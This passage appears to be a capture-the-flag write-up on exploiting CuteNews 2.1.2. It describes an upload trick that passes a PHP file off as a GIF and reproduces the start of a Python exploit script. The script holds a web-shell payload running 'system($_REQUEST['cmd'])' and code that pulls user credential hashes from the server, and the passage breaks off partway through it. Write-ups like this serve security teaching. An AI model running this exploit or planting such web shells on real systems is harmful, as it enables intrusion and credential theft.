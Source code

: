 ```

![image](https://user-images.githubusercontent.com/69868171/117590179-14137a00-b0fc-11eb-8c95-3c73762ce6dd.png)

![image](https://user-images.githubusercontent.com/69868171/117590194-21c8ff80-b0fc-11eb-951e-c84ea2838f02.png)

So the web server we think we are uploading a GIF image which is a PHP file.

![image](https://user-images.githubusercontent.com/69868171/117590212-49b86300-b0fc-11eb-88ea-30ad68b98f5e.png)

Uploaded now some of the problem i face is when i try accessing the upload file but it refuse to load i think the website it broken.

![image](https://user-images.githubusercontent.com/69868171/117590265-969c3980-b0fc-11eb-8df1-1543fec457d9.png)

Definitely broken so i go back to use the python exploit script for the CuteNews 2.1.2 .

![image](https://user-images.githubusercontent.com/69868171/117590317-e418a680-b0fc-11eb-990f-8eaad0bf4088.png)

Note:- remove all the CuteNews in the exploit it should be like the below one;

```
#! /bin/env python3

import requests
from base64 import b64decode
import io
import re
import string
import random
import sys


banner = """


           _____     __      _  __                     ___   ___  ___ 
          / ___/_ __/ /____ / |/ /__ _    _____       |_  | <  / |_  |
         / /__/ // / __/ -_)    / -_) |/|/ (_-<      / __/_ / / / __/ 
         \___/\_,_/\__/\__/_/|_/\__/|__,__/___/     /____(_)_(_)____/ 
                                ___  _________                        
                               / _ \/ ___/ __/                        
                              / , _/ /__/ _/                          
                             /_/|_|\___/___/                          
                                                                      

                                                                                                                                                   
"""
print (banner)
print ("[->] Usage python3 expoit.py")
print ()
sess = requests.session()
payload = "GIF8;\n<?php system($_REQUEST['cmd']) ?>"
ip = input("Enter the URL> ")
def extract_credentials():
    global sess, ip
    url = f"{ip}/cdata/users/lines"
    encoded_creds = sess.get(url).text
    buff = io.StringIO(encoded_creds)
    chash = buff.readlines()
    if "Not Found" in encoded_creds:
            print ("[-] No hashes were found skipping!!!")
            return